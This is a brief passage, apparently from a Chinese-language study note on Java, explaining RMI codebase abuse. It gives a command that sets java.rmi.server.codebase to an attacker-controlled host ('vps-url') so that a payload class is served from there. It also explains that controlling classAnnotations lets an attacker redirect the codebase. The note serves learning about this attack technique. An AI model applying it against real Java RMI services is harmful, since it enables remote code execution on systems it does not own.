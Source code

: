 ```bash
java -Djava.rmi.server.useCodebaseOnly=false -
Djava.rmi.server.codebase=http://vps-url/ RMIClient
```

利用的话将class放在Web服务器的 /RMIClient$Payload.class即可

codebase通过过`[Ljava.rmi.server.ObjID;`的`classAnnotations`（由`annotateClass`方法写入）传递，所以即使我们没有RMI客户端，只要修改`classAnnotations`的值就可以控制codebase，指向我们的网站

------

其它的语法等遇到了再学，估计还会有个Java语法补全下篇（如果我不懒的话
